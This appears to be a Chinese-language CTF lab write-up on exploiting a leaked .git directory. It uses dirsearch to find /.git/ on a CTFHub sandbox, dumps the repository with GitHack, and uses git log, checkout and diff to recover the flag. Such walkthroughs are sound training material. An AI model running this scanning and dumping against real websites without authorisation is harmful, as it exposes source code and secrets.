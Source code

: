# Git-泄露

## 1.1-Git泄露工具介绍

- `.git` 泄漏利用工具，可还原历史版本

- 下载地址：https://github.com/BugScanTeam/GitHack.git 或者 git@github.com:BugScanTeam/GitHack.git

- 依赖环境：

- 不需要安装其它 Python 库，只需要有 git 命令即可

- 使用方法：

```
python GitHack.py http://www.example.com/.git/
```

## 1.2-Git泄露示例

- 首先在ctfhub中打开一个git泄露实列
- ![image-20220811225218777](assets/image-20220811225218777.png)

- 这里我选的是一个log实列

- 首先使用dirsearch工具进行目录扫描

- ```
  └─# dirsearch -u http://challenge-03f165957908b4ef.sandbox.ctfhub.com:10800/
  ```

  ![image-20220811225348984](assets/image-20220811225348984.png)

- 扫描到的状态码大多都是503
- ![image-20220811225452116](assets/image-20220811225452116.png)

- 这样的结果很繁琐，所以我们利用dirsearch中的 -i 参数进行状态码过滤
- ![image-20220811225558275](assets/image-20220811225558275.png)

- 使用命令：

- ```
  └─# dirsearch -u http://challenge-03f165957908b4ef.sandbox.ctfhub.com:10800/ -i 200
  ```

- ![image-20220811225705201](assets/image-20220811225705201.png)

- 上图中可以看到扫描到一个.git目录，说明存在git泄露的可能，接下来我们呢利用GitHack工具将.git目录中的内容都dump下来

- ```
  └─# python2 GitHack.py http://challenge-03f165957908b4ef.sandbox.ctfhub.com:10800/.git
  ```

  ![image-20220811225930833](assets/image-20220811225930833.png)

- 查看/root/GitHack/dist/challenge-03f165957908b4ef.sandbox.ctfhub.com_10800目录
- ![image-20220811230046694](assets/image-20220811230046694.png)

## 1.2.1-方法1：

- 发现一个.git目录，使用git log查看该目录

- ```
  git log --oneline #以简单的形式查看该目录
  ```

  ![image-20220811230231928](assets/image-20220811230231928.png)

- 可以看到当前分支为remove flag分支，我们只需要跳转到add flag分支即可得到flag

- ```
  git checkout c0f7584
  ```

  ![image-20220811230357240](assets/image-20220811230357240.png)

- 通过跳转分支果然得到flag

## 1.2.2-方法2：

- 查看历史记录

- ```
  git log --oneline
  ```

  

- ![image-20220811230610975](assets/image-20220811230610975.png)

- 对比add flag分支不同的地方

- ```
  git diff c0f7584
  ```

  ![image-20220811230838866](assets/image-20220811230838866.png)

- 可以看出很轻松得到了flag

## 1.3-总结：

- git泄露一般情况下先利用扫描工具扫描目录发现.git目录大概率说明这个目录存在git泄露
- 然后使用GitHack这类工具进行数据下载
- 下载到本地目录之后利用git命令进行信息搜集

